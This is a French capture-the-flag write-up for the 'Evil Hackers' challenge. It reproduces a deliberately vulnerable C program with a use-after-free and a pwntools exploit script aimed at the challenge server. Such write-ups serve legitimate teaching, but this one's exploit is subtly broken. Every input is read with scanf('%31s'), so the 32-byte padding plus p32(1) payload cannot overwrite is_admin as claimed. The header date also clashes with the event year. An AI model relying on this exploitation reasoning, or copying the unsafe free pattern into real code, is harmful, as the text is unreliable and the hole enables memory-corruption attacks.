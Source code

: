 ```yaml
---
title: "PwnMe Junior 2025 - Evil Hackers"
date: 2024-04-14
tags: ["pwnme-junior", "pwn", "use-after-free", "exploitation"]
---
```


# Write-up: Evil Hackers - PwnMe Junior 2025

## Description

Evil Hackers est un challenge de type "use-after-free" (UAF) qui simule un système de gestion d'utilisateurs vulnérable.

## Analyse du binaire

Le programme est un binaire ELF 64 bits qui offre une interface pour gérer des utilisateurs, avec plusieurs options :
1. Ajouter un utilisateur
2. Supprimer un utilisateur
3. Afficher les informations d'un utilisateur
4. Modifier le nom d'un utilisateur
5. Quitter

Voici un extrait du code source :

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

typedef struct {
    char name[32];
    int is_admin;
} User;

User* users[10] = {NULL};

void add_user(int idx) {
    if (idx < 0 || idx >= 10) {
        printf("Index invalide\n");
        return;
    }
    
    if (users[idx] != NULL) {
        printf("L'emplacement est déjà occupé\n");
        return;
    }
    
    users[idx] = malloc(sizeof(User));
    if (users[idx] == NULL) {
        printf("Erreur d'allocation mémoire\n");
        return;
    }
    
    printf("Nom de l'utilisateur: ");
    scanf("%31s", users[idx]->name);
    users[idx]->is_admin = 0;  // Les nouveaux utilisateurs ne sont pas admin
    
    printf("Utilisateur ajouté avec succès\n");
}

void delete_user(int idx) {
    if (idx < 0 || idx >= 10 || users[idx] == NULL) {
        printf("Utilisateur invalide\n");
        return;
    }
    
    free(users[idx]);
    // Vulnérabilité: pointeur non réinitialisé après free
    
    printf("Utilisateur supprimé avec succès\n");
}

void show_user(int idx) {
    if (idx < 0 || idx >= 10 || users[idx] == NULL) {
        printf("Utilisateur invalide\n");
        return;
    }
    
    printf("Nom: %s\n", users[idx]->name);
    printf("Admin: %s\n", users[idx]->is_admin ? "Oui" : "Non");
    
    if (users[idx]->is_admin) {
        printf("Flag: PwnMe{us3_4ft3r_fr33_1s_d4ng3r0us}\n");
    }
}

void edit_user(int idx) {
    if (idx < 0 || idx >= 10 || users[idx] == NULL) {
        printf("Utilisateur invalide\n");
        return;
    }
    
    printf("Nouveau nom: ");
    scanf("%31s", users[idx]->name);
    
    printf("Nom modifié avec succès\n");
}

int main() {
    int choice, idx;
    
    while (1) {
        printf("\n===== Système de gestion des utilisateurs =====\n");
        printf("1. Ajouter un utilisateur\n");
        printf("2. Supprimer un utilisateur\n");
        printf("3. Afficher un utilisateur\n");
        printf("4. Modifier un utilisateur\n");
        printf("5. Quitter\n");
        printf("Choix: ");
        scanf("%d", &choice);
        
        if (choice == 5) break;
        
        printf("Index (0-9): ");
        scanf("%d", &idx);
        
        switch(choice) {
            case 1: add_user(idx); break;
            case 2: delete_user(idx); break;
            case 3: show_user(idx); break;
            case 4: edit_user(idx); break;
            default: printf("Option invalide\n");
        }
    }
    
    return 0;
}
```

## Vulnérabilité

La vulnérabilité principale est un Use-After-Free (UAF) : après la libération d'un utilisateur avec `delete_user()`, le pointeur `users[idx]` n'est pas mis à NULL. Cela signifie qu'il est possible d'accéder et de modifier cette zone mémoire après qu'elle ait été libérée.

## Exploitation

L'exploitation se fait en plusieurs étapes :
1. Créer un utilisateur à l'index 0
2. Supprimer cet utilisateur (libération de la mémoire)
3. Créer un nouvel utilisateur à l'index 1, qui réutilisera probablement la même zone mémoire
4. Modifier le nom de l'utilisateur à l'index 1 pour écraser la valeur `is_admin` de la structure
5. Afficher l'utilisateur à l'index 0 pour obtenir le flag

```python
from pwn import *

# Connexion au serveur
conn = remote('challenge.pwnme.fr', 1338)

# Fonction pour naviguer dans le menu
def menu(choice, idx):
    conn.sendlineafter(b"Choix: ", str(choice).encode())
    if choice != 5:  # L'option 5 ne demande pas d'index
        conn.sendlineafter(b"Index (0-9): ", str(idx).encode())

# 1. Ajouter un utilisateur à l'index 0
menu(1, 0)
conn.sendlineafter(b"Nom de l'utilisateur: ", b"user1")

# 2. Supprimer cet utilisateur (libération de la mémoire)
menu(2, 0)

# 3. Créer un nouvel utilisateur à l'index 1
menu(1, 1)
conn.sendlineafter(b"Nom de l'utilisateur: ", b"user2")

# 4. Modifier l'utilisateur à l'index 1 pour écraser la valeur is_admin
# Créer un payload qui remplit le name (32 octets) et écrit 1 dans is_admin
menu(4, 1)
payload = b"A" * 32 + p32(1)  # 32 'A' + valeur 1 pour is_admin
conn.sendlineafter(b"Nouveau nom: ", payload)

# 5. Afficher l'utilisateur à l'index 0 pour obtenir le flag
menu(3, 0)

# Récupérer et afficher le flag
conn.recvuntil(b"Flag: ")
flag = conn.recvline().strip().decode()
print(f"Flag: {flag}")

# Quitter proprement
menu(5, 0)
conn.close()
```

## Flag

En exécutant l'exploit, nous obtenons le flag : `PwnMe{us3_4ft3r_fr33_1s_d4ng3r0us}` 